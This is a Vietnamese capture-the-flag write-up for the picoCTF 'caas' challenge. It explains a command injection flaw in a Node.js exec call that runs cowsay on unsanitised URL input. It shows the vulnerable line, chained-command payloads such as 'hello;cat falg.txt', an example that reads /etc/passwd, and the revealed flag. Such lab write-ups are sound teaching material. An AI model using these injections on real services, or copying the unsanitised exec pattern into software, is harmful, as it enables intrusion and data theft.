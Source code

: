 # Write-up : caas
---
### Description :
> Now presenting cowsay as a service
> file index.js
### Hint :
> none
---
### Solution :
Tải file về và mở ra thì đọc qua chúng ta có thể thấy có import các lệnh của linux vào ``` const { exec } = require('child_process'); ```
Khi vào trang web thì có được 1 đường link để chuyển đến `` con bò nói ``, khi vào đường dẫn ta có thể bắt con bò nói bằng cách thêm văn bản vào sau dấu `` / `` của `` https://caas.mars.picoctf.net/cowsay/{message} ``
Quay lại với việc đọc code thì chúng ta lại tìm ra điểm để khai thác sau khi có phần import các câu lệnh linux phía trên : ```  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) ```
Dễ dàng thấy ``` ${req.params.message} ``` không kiểm tra dữ liệu đầu vào
- Vậy chúng ta có thể sử dụng các câu lệnh linux
??? Vậy chúng ta dùng các câu lệnh như nào ???
- Như chúng ta đã biết thì muốn thực hiện lệnh thì phải phân cách giữa dữ liệu vào và câu lệnh mình muốn thực hiện, trong linux việc ngăn cách giữa 2 câu lệnh đó là xuống dòng hoạc dùng dấu `` ; ``
> giải thích : coi câu lệnh ${req.params.message} như 1 câu lệnh linux echo 1 và phần ${req.params.message} chính là số 1 trong câu lệnh echo đó, muốn thực hiện thêm 1 câu lệnh thì ta phải giúp linux phân biệt rõ 2 câu lệnh bằng dấu `` ; ``

> ví dụ : echo 1 và ta được nhập văn bản để in ra màn hình, nhưng 1 hacker thì không nhập như bình thường mà sẽ nhập là `` 1;cat /etc/passwd `` để thực hiện thêm 1 lệnh

Như vậy ta có thể áp dụng vào bài này, chúng ta sẽ nhập 1 văn bản bình thường là `` ; `` sau đó là câu lệnh ta muốn thực hiện
Trong bài này ta sẽ tìm file flag.txt và đọc nó thôi, vì thế chúng ta sẽ dùng lệnh `` ls `` . Chúng ta có payload là `` hello;ls `` 
Thu được kết quả là : 
```
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
Á à ta đã thấy 1 file khá lạ và cũng rất quen đó là file : `` falg.txt `` 
Dùng lệnh cat để đọc : `` hello;cat falg.txt `` 
```
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```
### Flag : `` picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o} ``
